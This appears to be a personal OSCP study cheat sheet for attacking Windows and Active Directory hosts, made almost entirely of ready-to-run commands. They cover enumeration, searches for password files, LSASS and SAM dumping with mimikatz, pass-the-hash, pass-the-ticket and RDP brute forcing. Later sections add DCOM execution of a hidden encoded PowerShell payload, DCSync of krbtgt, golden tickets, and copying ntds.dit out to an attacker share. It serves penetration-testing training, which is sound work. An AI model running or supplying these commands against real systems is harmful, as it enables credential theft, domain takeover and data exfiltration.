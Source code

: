 Port scan for Win:

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,445 $TARGET_IP -vv
```
OSCP guidance for enumeration:
---
#oscp #windows-enum #pen-200
```powershell
whoami /groups
(Get-PSReadlineOption).HistorySavePath
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember "$GROUP"
systeminfo
ipconfig /all
route print
netstat -ano
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process # or tasklist /SVC
Get-Process | findstr /V /R "svchost winlogon vm3dservice RuntimeBroker vmtoolsd SearchHost lsass"
```

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
net user $USER
runas /user:$USER cmd
.\PsLoggedon.exe \\$OTHER_MACHINE # get users logged into $OTHER_MACHINE
```

Start new powershell with administrator privs:

```powershell
Start-Process PowerShell -verb runas
```

Reboot Windows:

```powershell
shutdown /r /t 0
```

Type powershell history:
```powershell
type $((Get-PSReadlineOption).HistorySavePath)
```

Find which DotNet version is installed:
```powershell
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version
```

use winpeas.exe, search for DPAPI: `_Checking for DPAPI Credential Files`_

```powershell
.\Seatbelt.exe -group=all
```

```powershell
$password = ConvertTo-SecureString $PASS -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($USER, $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

Run as administrator:
```powershell
Start-Process PowerShell -Verb RunAs
```

Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get OS patches:
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Get OS drives:
```powershell
wmic logicaldisk get caption,description,providername
```
Get network adapters and open ports:
```powershell
ipconfig /all
netstat -ano
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

# Get installed patches:

```powershell
wmic qfe
```

# Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

# Dump LSASS:
check for #SeDebugPrivilege

```powershell
whoami /priv
#run mimikatz
```

```bash
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M minidump
pypykatz lsa minidump lsass.DMP
```

Add domain NB name to /etc/hosts

```bash
crackmapexec smb $TARGET_IP -u '' -p ''
```

check for open shares

```bash
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

Enumerate users by brute forcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Mount windows share:
```bash
sudo mount -o username=$USER,password=$PASSWORD -t cifs \\\\$TARGET_IP\$SHARE /mnt
```

wmiexec (on port 445) with hash (administrator account only):
#pass-the-hash #pth #wmiexec
```bash
crackmapexec smb -u administrator -H $HASH -X "powershell -e ..."
impacket-wmiexec -hashes :$HASH Administrator@$TARGET_IP
```
smbclient:
#pass-the-hash 
```bash
smbclient \\\\$TARGET_IP\\$SHARE -U Administrator --pw-nt-hash $HASH
```

Try to connect to console:

```shell
impacket-psexec $USER:$PASSWORD@$TARGET_IP
```

```bash
impacket-wmiexec -hashes :$NTLM$ Administrator@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP with clipboard enabled:

```bash
xfreerdp +clipboard /v:$TARGET_IP /u:$USER /cert:ignore
```

Connect with shared folder, and NLA :
```bash
xfreerdp +clipboard /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD /cert:ignore /drive:shared,/home/kali/shared
xfreerdp +clipboard /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD /cert:ignore /drive:shared,/home/kali/shared /d:$AD_DOMAIN
```

Brute force RDP:

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p $PASSWORD rdp://$TARGET_IP -I
```

Elevate powershell to administrator:
#elevate-powershell #powershell-admin

```powershell
Start-Process powershell -Verb runas -ArgumentList "-NoExit -c cd '$pwd'"
```

mimikatz dump as local admin:
#dump #mimikatz
```powershell
.\mimikatz
privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords
```
#pth #overpass-the-hash 
```powershell
sekurlsa::pth /user:$USER /domain:$TARGET_DOMAIN /ntlm:$HASH /run:powershell
#on the new powershell
net use \\$TARGET_IP
.\PsExec.exe \\$TARGET_IP cmd
```
#pass-the-ticket

```poweshell
privilege::debug
sekurlsa::tickets /export
#ls *.kirbi
#select ticket matching target host
kerberos::ptt $TICKET
.\PsExec.exe \\$TARGET_IP cmd
```
mimikatz as domain admin:
#mimikatz #dcsync #dc-sync #krbtgt
```powershell
privilege::debug
lsadump::dcsync /user:$AD_DOMAIN\krbtgt
```

DCOM:
#dcom #lateral-ad-movement 
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$TARGET_IP"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JAB....","7")
```

Golden ticket:
#priv-esc-ad #golden-ticket #krbtgt #kerberos 
```powershell
#start mimikatz
privilege::debug
kerberos::purge
lsadump::lsa /patch
kerberos::golden /user:$USER /domain:$TARGET_AD /sid:$TARGET_SID /krbtgt:$HASH /ptt
misc::cmd
PsExec.exe \\$DOMAIN_CONTROLLER cmd.exe
```

Volume Shadow Copy:
#vshadow #ntds #system-bak
```powershell
reg.exe save hklm\system c:\system.bak
vshadow.exe -p -nw C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit.bak
cp .\ntds.dit.bak \\tsclient\shared
```